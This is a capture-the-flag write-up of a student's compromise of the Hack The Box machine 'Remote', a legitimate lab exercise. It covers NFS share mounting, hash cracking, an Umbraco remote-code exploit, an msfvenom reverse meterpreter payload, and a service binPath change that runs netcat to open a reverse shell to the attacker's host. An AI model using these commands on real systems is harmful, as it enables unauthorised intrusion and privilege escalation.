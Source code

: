 # Week 9 - HTB - Remote

![remote](images/remote.png)

Sasha Thomas

May 27th 2020

## Introduction and Materials

This week, I decided to step away from SmashTheStack temporarily and try my hand at another HTB machine.

This box was especially difficult, not only because I had no experience with Windows, but also because it is an active machine, meaning there are no write ups or references available. I didn't need to refer to any write ups for the last box (OpenAdmin), but I at least had the ease of mind that they were available. For this, I was on my own. 

To complete this, I used the MetaSploit Framework, MSFVenom, Python, `netcat`, Nmap, and `mount` (maybe some other tools I'm forgetting)

## Steps to Reproduce

1. As per usual, I used `nmap` to scan `10.10.10.180` with flags set to probe service/version info. A handful of ports were open:

   ![portscan](images/portscan.PNG)

   Not being experienced with Windows, nothing stood out to me, so out of curiosity I hit the IP in my web browser:

   ![acmesite](images/acmesite.png)

   I gave OWASP DirBuster a spin, because it led me down the right path with OpenAdmin, but the results weren't as impressive for this machine. Looking back at my Nmap scan, I started to google the services and ports I didn't recognize (which was pretty much each one). It was until I googled `mountd`, the service running on port 2049, that led me to something interesting. 

2. Some research led me to NFS or Network File System, which allows remote hosts to mount systems/directories over a network. If I could mount a directory from this machine to mine, then this might give me some good information. Running the command `showmount` told me that everyone could mount the directory `/site_backups`:

   ![showmount](images/showmount.PNG)

   Using the `mount` command, I successfully copied `/site_backups` to Kali, and began enumerating! 

   ![mounted](images/mounted.PNG)

   Learning from previous boxes, my goal was to look for any file related to configuration, settings, data, defaults, logs, etc. Eventually, within `/App_Data`, when I printed the contents of `umbraco.sdf`, I found some strings but mostly a sea of unrecognized characters. Having encountered similar situations, I know that the `strings` command is infinitely useful. Using `strings` gave me an interesting log of events, which looked like it included a password hashed using SHA1:

   ![hashedpass](images/hashedpass.PNG)

   Using a SHA1 decryptor, I was able to find a password: "baconandcheese"

3. Since these were credentials for Umbraco, I went to http://10.10.10.180/umbraco and successfully logged into the administrator account!

   ![admin](images/admin.PNG)

   This was great, but my goal remained to get into the machine. Having admin access to the site presumably meant that this was my way in, so more research led me to an exploit for this version of Umbraco CMS (https://github.com/noraj/Umbraco-RCE). This exploit, with admin credentials, allows for remote code injection into the box. After some tweaks to my syntax, I was successfully able to send commands to the machine! 

   ![firstshellkinda](images/firstshellkinda.PNG)

4. This is unfortunately where the pain began. Before this, I was getting by with google searches and a lot of enumeration. From this point on, I ran into a problem at every step of the way. Compounded with trying to get $%&#*@ powershell to do what I wanted it to, I was stuck at this point for the rest of the day. Technically, I owned user, in the sense that I was on the computer and got the user flag. But I didn't really "own" user, I was just injecting code. So I began trying to get a low-privileged shell, because I didn't see a way to escalate what I had to root without an actual shell.

5. I will spare the details of my frustration and speak to the core of my confusion. Because this is a Windows machine, many of the tools and strategies I've heard about or could google quickly didn't apply (as they were mostly Linux based). I felt stuck, because many of the strategies specifically for Windows required a shell or meterpreter. I wasn't using meterpreter, and didn't know how to use what I had to get a shell. Other resources I found suggested using `nc`, the Windows version of `netcat`, but this is obviously not installed on Windows machines by default. So, what if I put it on there? 

6. This was an idea that led me down a rabbithole. Although my RCI was very low-privileged, I could still by default upload to `/Users/Public`, where the user flag was held. I just needed to spin up a quick web-server to host the files, something I've never done before. I was ecstatic to find a super basic Python command, `SimpleHTTPServer`, which takes a port and creates a file sharing server from the directory you are in. I quickly had a rudimentary file sharing server which could host all the malicious files I wanted!

   ![pythonserver](images/pythonserver.PNG)

   (By the time I rooted the box, these were all the things I tried using)

7. Getting the files on the machine using powershell was an endeavor of its own. Technically the "p" and "s" in powershell should be capitalized, but it doesn't deserve the authority. Trying to figure this out took a painstaking half an hour of trying different commands with slightly different syntax. I will never take unix for granted again. Eventually, the command `Invoke-WebRequest` successfully did the job of transferring a file from my machine to `10.10.10.180`. In the end, the syntax isn't too scary, but errors with spaces, backslashes, apostrophes, and quotes, as well as the exploit assuming the powershell flags were incorrect python flags, made the process very tedious. The entire command looked like the following:

   ```bash
   python3 umbraco_exploit.py -u admin@htb.local -p baconandcheese -i 'http://10.10.10.180' -c powershell.exe -a 'Invoke-WebRequest -Uri 'http://KaliIP:8080/file' -OutFile 'C:\Users\Public\Documents\file'
   ```

8. My newfound ability to transfer files led me to more frustration with `netcat` for Windows after I uploaded the exe. After an hour of frustration with permissions, exe's and powershell in general, I took a step back and researched more ways to accomplish what I wanted to. My goal was to upload something that could give me a shell, eject code to run it, and connect back to that on my Kali box. And the Metasploit Framework and MSFVenom actually allow you to do just that. MSFVenom lets you create malicious exe's that will run an exploit, and from my research, it seemed that through MSF, I could create a handler that listened for this and connect back to it, sort of like using MSF but manually performing each step. I created a malicious exe using the following command:

   ```bash
   msfvenom -p windows/meterpreter/reverse_tcp lhost=KaliIP lport=4444 -f exe > payload.exe
   ```

   I copied this over to `/Public` and ran it. Then, on my Kali machine, I ran MSF and used `exploit/multi/handler` with the right port and IP, and to my surprise, this actually worked and got me a meterpreter session!

   ![meterpreter](images/meterpreter.PNG)

9. As cool as this was, it was only half the battle; I still needed to escalate my privileges somehow. I came back to the box the next day ready for lots of enumeration. It was unfortunately my enumeration which led me down a rabbithole which, while I think is possible, was beyond my capacity to figure out. While doing standard checks of the services running on the computer, I found that TeamViewer7 was running. There was nothing else that stood out to me, so I followed this path and started looking at the files and doing research. I found an exploit for old versions of TeamViewer which revealed passwords for the active TeamViewer session. Running this in metasploit gave me a clear hint!

   ![teamviewerexploit](images/teamviewerexploit.PNG)

   Siiiick!!! I just needed an ID for the TeamViewer session. More googling led me to the `reg query` command on Windows, which allowed me to query the registry holding ClientID:

   ![regquery](images/regquery.PNG)

   Converting the hex to decimal, I got 1769137322, a valid TeamViewerID. 

10. But no dice. I double-checked my number in TeamViewer, the password, ID, but nothing worked. I made sure the TeamViewer exe's were running using the `net start` command, but I got nowhere. Considering the name of the box and the ability to get the password and ID, I believe this is somehow a valid solution, but after a few hours of hitting my head against the wall, I looked for other options. 

11. Feeling as if I was starting over, I found some Windows enumeration and privilege escalation scripts, and transferred them to the box. After another half an hour of trying to download these as modules (in order to use the built-in commands), I finally found a loop around (as I didn't have privileges to install powershell modules):

    ```powershell
    powershell -exec bypass -Command "& {Import-Module ./PowerUp.ps1}"
    ```

    Using this allowed me to run the commands from the .ps1 file for that line only. I used the built-in `Invoke-AllChecks` command. The result was interesting; there was a service running as root which I had permission to not only restart, but change some of it's values, including, but not limited to, it's binary path name.

12. This time, I decided to use the `nc.exe` I originally attempted to use, because this time, I could set it to run with parameters. After uploading `nc.exe`, I used `sc config` on the vulnerable service (`UsoSvc`) to set `binPath` to `C:/Users/Public/Documents/nc.exe KalisIP 4444 -e cmd.exe`. 

    ![restart](images/restart.PNG)

13. For this change to take, I stopped the service, opened a `netcat` listener on my Kali box, and started the service again. And I was finally root!!!

    ![rooted](images/rooted.PNG)



## Discussion

First of all, my inexperience with Windows, cmd, and powershell definitely added lots of stress to this already difficult box. Nothing was super mind blowing, it just took me a long time to enumerate and set everything up perfectly, especially since I haven't used netcat or metasploit to drop a shell like that before. I have done something similar using remote code injection with PHP, but this felt like a whole new beast. 

As far as security principles violated, there were serious issues, starting with allowing everyone to copy that initial backup folder (not to mention using an outdated hash algorithm). But, in general, these vulnerabilities seem "realistic" in the sense that they could happen due to a lazy IT department. 

## Conclusion

I'm still upset I couldn't get the TeamViewer exploit to work. I have no idea why it fails to connect to the ID. I will look into it in my own time and see if I can get it to work. Considering the name of the box, and the password I found, it must be intentional, and likely the intended way. I'm not sure if my method was intentional, but it works! 

